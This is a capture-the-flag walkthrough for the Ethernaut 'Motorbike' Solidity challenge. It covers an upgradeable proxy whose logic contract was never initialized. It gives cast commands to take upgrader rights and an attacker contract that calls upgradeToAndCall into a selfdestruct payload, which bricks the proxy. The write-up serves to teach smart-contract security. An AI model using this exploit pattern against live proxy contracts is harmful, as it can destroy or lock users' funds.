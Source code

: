 # Ethernaut Walkthrough: Motorbike
## Welcome to KweenBirb's 26th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Motorbike.sol, the 26th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in the ./src directory. Let's begin!

In this challenge, Ethernaut gives us yet another upgradeable proxy pattern contract, this time asking us to 'selfdestruct its engine and make the motorbike unusable'

This challenge features a proxy just like the last challenge: Puzzle-Wallet, go check it out if you haven't already as this challenge will make a lot more sense having gone through that one. I actually just recently read of the exploit dubbed "explodingKittens" that thankfully was discovered before any damage could be done. It's a severe vulnerability that could have been abused to brick tens (possibly hundreds) of millions of dollars. Funny enough, while solving the previous challenge I was at first convinced we would need to explode some kittens, only belatedly realizing it was a much simpler storage overlap situation. This challenge however looks prime for exploding some kittens!

The 2021 ExplodingKittens exploit is premised on the fact that many upgradeable proxy contracts possess their upgrade logic in the logic implementation contract and that calls are delegatecalled via a fallback function. This proxy pattern, while immensely useful, can be terribly disastrous if a dapp does not take care to initialize its logic implementation contract (logic implementation contracts' initialize function must be manually invoked, unlike constructors). In such a case, an attacker may be able to gain permissioned access within a logic contract and maneuver laterally within to wreak other havoc.

So, let's see if we can't bypass the proxy entirely and call the initialize function on the logic implementation contract itself.

First let's locate the target logic implementation contract. There are a variety of ways to do this, via some sleuthing on Etherscan, using OpenZeppelin's awesome library of nifty proxy functions, or using Foundry's cast storage command. 

Personally I chose to use Foundry for this, but if you're more comfortable using Javascript I included that approach as well.

## Foundry's cast storage command

Remember that all storage variables and bytecode are ALWAYS public on-chain. There is nowhere to hide. Since we have the Motorbike's source code via Ethernaut, all we need to do is read from the storage slot termed _IMPLEMENTATION_SLOT (assigned 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc) specified at the top of the contract.

```cast storage $your_ethernaut_instance 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc```

Where $your_ethernaut_instance is set by a simple export:

```export instance=0xd00d00beefb00b```

## The OpenZeppelin JS option

If you go the OpenZeppelin route, a short js script will do the trick:

```
import {getImplementationAddress} from '@openzeppelin/upgrades-core'
const targetImpl = await getImplementationAddress(provider, proxyAddress)
```

Where your proxyAddress would be $your_ethernaut_instance and the provider would be easily set using the Ethers library. I've included the completed js script is in the ```script``` directory of this repo; it uses the common ethers js framework as well as the ever-useful dotenv library to establish a connection to Rinkeby via Infura.

When we run our nifty getImplementation.js script, a target address is returned to us in the console:

![Script Output](https://github.com/robriks/ethernaut-solutions/blob/main/motorbike/script/result.png)

## Once we've identified the logic implementation contract address

Looking back at the proxy, we see that the proxy contract is initialized in the proxy constructor:

```
    (bool success,) = _logic.delegatecall(
        abi.encodeWithSignature("initialize()")
    );
    require(success, "Call failed");
```

But there's no call to initialize the logic contract in sight! To be sure, let's run some quick checks to see if the logic implementation is initialized:

```cast call $IMPL --rpc-url $RPC "upgrader():(address)"```
```cast call $IMPL --rpc-url $RPC "horsePower():(uint256)"```

0 all around!? QUICK, CALL INITIALIZE() BEFORE SOME OTHER H4CK3R DOES! (or, as we are about to do, write it into a malicious contract for the element of surprise ;) )

```cast send --private-key $PRIV_KEY $IMPL --rpc-url $RPC "initialize()"```

Howly h00ts, I'M IN!!! 😈😈😈😈😈

PWND! With upgrader set to h4xz0r KweenBirb's address, we can now call upgradeToAndCall() to set a logic implementation 'engine' with a selfdestruct() function for the original logic implementation 'engine' to call! Teehee, we're gonna blow this Motorbike Engine to smithereens and set all the funds involved on 🔥🔥🔥fire🔥🔥🔥!

That way, once the Engine contract is selfdestructed, the proxy contract will be bricked, stuck calling an empty contract for its functions. The only way our plan could be foiled is if the delegatecall architecture checks for extcodesize() to prevent this. Looking at the _delegate fallback, we can see indiscriminate delegatecall assembly handling every call forwarded to the fallback function:

```
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
```

Aaaaand no extcodesize() logic to save the proxy if we brick it. Perfect.

## Let's get cracking, shall we?

Let's format a malicious contract function invoking selfdestruct():

```
function payload() public {
        selfdestruct(0x000000000000000000000000000000000000dEaD);
    }
```

And then invoke it using the Engine's convenient function intended for the proxy Motorbike to both set a new implementation and presumably initialize it in a single transaction. Of course, we'll be setting things on fire instead.

```
function sugarInYourEngine() public {
        // become upgrader by initializing logic engine
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSignature("payload()"));
    }
```

With that, all we need to do is deploy our malicious contract and call sugarInYourEngine() to clog and explode the engine of Ethernaut's Motorbike. Pretty rude, if you ask me. But it had to be done.
○•○ h00t h00t ○•○
